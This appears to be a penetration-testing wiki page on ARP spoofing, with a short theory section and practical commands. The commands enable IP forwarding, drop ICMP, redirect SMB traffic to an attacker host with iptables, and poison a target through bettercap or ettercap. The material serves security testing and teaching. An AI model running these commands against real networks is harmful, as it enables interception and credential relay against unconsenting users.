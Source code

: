 # 🛠️ ARP spoofing

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="warning" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

Examples of attacks

* ARP spoofing an SMB server and route received SMB packets to internal capture or relays servers
* ARP spoofing the DNS server then DNS spoofing when receiving DNS queries

Preparation

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

Spoofing

{% tabs %}
{% tab title="Bettercap" %}
Once bettercap is running

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
```
{% endtab %}

{% tab title="Ettercap" %}


```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

[http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html?m=1](http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html?m=1)

[https://luemmelsec.github.io/Relaying-101/\#arp-spoofing](https://luemmelsec.github.io/Relaying-101/#arp-spoofing)



